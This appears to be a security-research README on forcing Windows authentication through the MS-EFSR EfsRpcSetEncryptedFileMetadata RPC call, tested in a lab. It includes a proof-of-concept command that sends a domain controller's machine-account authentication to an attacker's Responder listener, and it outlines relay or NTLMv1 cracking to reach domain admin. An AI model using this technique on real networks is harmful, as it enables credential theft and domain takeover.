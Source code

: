 # MS-EFSR - Remote call to EfsRpcSetEncryptedFileMetadata (opnum 19)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\efsrpc`

+ **Function name**: [`EfsRpcSetEncryptedFileMetadata`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/38a5a7d3-4d47-4075-b830-b657805f2e94)

+ **Function operation number**: `19`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcSetEncryptedFileMetadata`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/38a5a7d3-4d47-4075-b830-b657805f2e94) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcSetEncryptedFileMetadata('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcSetEncryptedFileMetadata(
   [in] handle_t binding_h,
   [in, string, ref] wchar_t* FileName,
   [in, unique] EFS_RPC_BLOB* OldEfsStreamBlob,
   [in, ref] EFS_RPC_BLOB* NewEfsStreamBlob,
   [in, unique] ENCRYPTED_FILE_METADATA_SIGNATURE* NewEfsSignature
 );
```

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcSetEncryptedFileMetadata`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/38a5a7d3-4d47-4075-b830-b657805f2e94